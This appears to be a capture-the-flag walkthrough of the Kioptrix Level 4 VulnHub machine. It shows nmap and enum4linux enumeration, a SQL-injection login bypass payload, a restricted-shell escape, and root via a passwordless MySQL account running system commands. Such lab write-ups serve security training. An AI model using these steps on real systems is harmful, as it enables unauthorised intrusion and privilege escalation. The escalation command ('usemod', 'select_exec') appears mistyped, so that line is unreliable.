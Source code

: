 <h1>KIOPTRIX: LEVEL 1.3 (#4)</h1>

Today, we'll be looking at the Kioptrix level 4 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/).

Let's scan the machine with nmap.

```
┌──(root㉿kali)-[~/kioptrix4]
└─# nmap -sS -A 192.168.88.134
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-15 04:46 EDT
Nmap scan report for 192.168.88.134
Host is up (0.00021s latency).
Not shown: 566 closed tcp ports (reset), 430 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9bad4ff21ec5f23914b9d3a00be84171 (DSA)
|_  2048 8540c6d541260534adf86ef2a76b4f0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 00:0C:29:31:00:AD (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h59m59s, deviation: 2h49m43s, median: 2h59m58s
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2023-06-15T07:47:07-04:00

TRACEROUTE
HOP RTT     ADDRESS
1   0.22 ms 192.168.88.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.15 seconds
```
Browsing the machine on port 80 we find a login page.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic1.png)

We can also see that the machine is running smb.

Let's use enum4linux to find out more information.

```enum4linux 192.168.88.134 -a```

Great! We found three usernames.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic2.png)

Let's test the login form for sql injection.

we'll use ```1 'OR 1=1-- -``` as the password.

We got john's password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic3.png)

We also got robert's password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic4.png)

Let's ssh into the machine as john.

Looks like we are in a restricted shell.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic5.png)

Let's try to escape that shell.

I tried a bunch of commands then I tried to cd into a directory and I found that we are using lshell.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic6.png)

I searched online and found a way to escape lshell with **echo** [here](https://www.aldeid.com/wiki/Lshell).

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic7.png)

You can also read this great [article](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/) about escaping restricted shells.

Let's use linpeas for local enumeration and try to get root.

From the results of the script, we see that we can log into mysql as root with no password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic8.png)

```mysql -u root -p```

We got in!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic9.png)

Let's give john admin privilges.

```select_exec('usemod -a -G admin john');```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic10.png)

Now, we can just use ```sudo su```.

We are root.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic11.png)

